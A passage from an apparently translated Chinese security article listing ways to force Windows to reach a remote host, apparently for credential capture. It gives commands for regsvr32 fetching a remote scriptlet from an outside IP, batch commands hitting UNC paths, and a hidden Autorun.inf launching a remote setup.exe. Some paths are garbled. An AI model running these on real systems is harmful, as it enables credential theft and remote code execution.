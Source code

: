 下图是实验结果：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01087c7c9e6548488b.png)

<br>

**Regsvr32**

偶然的一个机会，我发现Regsvr32竟然也能实现我们的目的，利用方法如下：

```
regsvr32 /s /u /i://35.164.153.224/@OsandaMalith scrobj.dll
```

下图是实验结果：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d7bcb1a7547ec9cf.png)

<br>

**批处理文件**

利用批处理文件时，你有很多方法可以去实现目的：



```
echo 1 &gt; //192.168.0.1/abc
pushd \192.168.0.1abc
cmd /k \192.168.0.1abc
cmd /c \192.168.0.1abc
start \192.168.0.1abc
mkdir \192.168.0.1abc
type\192.168.0.1abc
dir\192.168.0.1abc
find, findstr, [x]copy, move, replace, del, rename and many more!
```

下图是实验结果：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016e33985339f5b859.png)

<br>

**Windows自动完成(Auto-Complete)**

你只需要在合适的位置输入“\host”，就可以自动完成，输入位置如下：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t010d6ebe0a23481516.png)

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01509d46ccb8b2a379.png)

<br>

**Autorun.inf**

需要说明的是，这种方法只适用于Windows 7以下系统，因为在Windows 7以上系统中，这个功能被取消了。不过，你可以通过修改自动运行的组策略，重新启用这个功能。在实际运用时，最好确保Autorun.inf文件是隐藏的，方法如下：



```
[autorun]
open=\35.164.153.224setup.exe
icon=something.ico
action=open Setup.exe
```
